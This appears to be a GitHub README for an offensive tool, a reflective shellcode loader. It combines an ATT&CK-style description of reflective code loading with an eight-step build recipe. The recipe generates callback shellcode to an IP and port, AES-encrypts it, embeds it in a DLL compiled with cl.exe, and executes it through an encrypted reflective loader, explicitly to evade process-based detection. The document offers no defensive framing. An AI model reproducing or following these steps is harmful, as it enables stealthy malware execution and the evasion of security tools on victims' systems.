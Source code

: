 Reflective Code Loading -PIS Shell Code Reflective Source Loader:
Adversaries may reflectively load code into a process in order to conceal the execution of malicious payloads. Reflective loading involves allocating then executing payloads directly within the memory of the process, vice creating a thread or process backed by a file path on disk (e.g., Shared Modules).

Reflectively loaded payloads may be compiled binaries, anonymous files (only present in RAM), or just snubs of fileless executable code (ex: position-independent shellcode). For example, the Assembly.Load() method executed by PowerShell may be abused to load raw code into the running process.[

Reflective code injection is very similar to Process Injection except that the "injection" loads code into the processes’ own memory instead of that of a separate process. Reflective loading may evade process-based detections since the execution of the arbitrary code may be masked within a legitimate or otherwise benign process. Reflectively loading payloads directly into memory may also avoid creating files or other artifacts on disk, while also enabling malware to keep these payloads encrypted (or otherwise obfuscated) until execution

##Reflective Loader Source

##Commands:

1-python pis.py --ip 127.0.0.1 --port 443 --language c --save True --output pis.bin

2-python aes.py pis.bin

3-insert aes code inside :dll-nss.cpp 

4-compile DLL --run with vs mode
cl.exe /W0 /D_USRDLL /D_WINDLL *.c *.cpp /MT /link /DLL /OUT:dll-nss.dll del *.obj *.lib *.exp

5-python aes.py dll-nss.dll > dll-nss.txt

6-insert aes keys inside rloader.cpp

7-cl rloader.cpp 

8-execute rloader.exe

Youtube link :
https://youtu.be/-t7u4QYvNKg

